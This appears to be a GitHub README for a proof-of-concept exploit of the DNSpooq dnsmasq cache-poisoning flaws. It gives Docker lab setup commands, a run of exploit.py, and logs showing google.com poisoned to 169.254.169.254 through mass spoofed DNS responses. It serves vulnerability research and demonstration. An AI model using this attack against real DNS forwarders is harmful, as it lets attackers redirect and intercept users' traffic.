

# dnspooq
DNSpooq PoC - dnsmasq cache poisoning (CVE-2020-25686, CVE-2020-25684, CVE-2020-25685)

For educational purposes only


## Requirements
- Docker compose
- Docker

## Exploit



### Launch containers

```
$ docker-compose up -d
```

### Run exploit.py

```
$ docker-compose exec attacker bash
bash-5.0# python exploit.py
Querying non-cached names...
Generating spoofed packets...
Poisoned: b'google.com.' => 169.254.169.254
sent 3032017 responses in 50.309 seconds
```

### View output from forwarder container

```
$ docker-compose logs -f forwarder
...
forwarder_1  | dnsmasq[1]: query[A] example.com from 10.10.0.3
forwarder_1  | dnsmasq[1]: forwarded example.com to 10.10.0.4
forwarder_1  | dnsmasq[1]: cached example.com is <CNAME>
forwarder_1  | dnsmasq[1]: cached google.com is 169.254.169.254
```

### View output from cache container

```
$ docker-compose logs -f cache
Attaching to dnspooq_cache_1
cache_1      | Sniffing...
cache_1      | Source port: 46816, TXID: 16476, Query: b'example.com.'
cache_1      | Source port: 16718, TXID: 54280, Query: b'example.com.'
...
cache_1      | Source port: 46816, TXID: 56240, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 24160, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 18189, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 40361, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 13100, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 47303, Query: b'example.com.'
```

## Reference
- https://www.jsof-tech.com/disclosures/dnspooq/
- https://www.jsof-tech.com/wp-content/uploads/2021/01/DNSpooq-Technical-WP.pdf

## Author
Teppei Fukuda
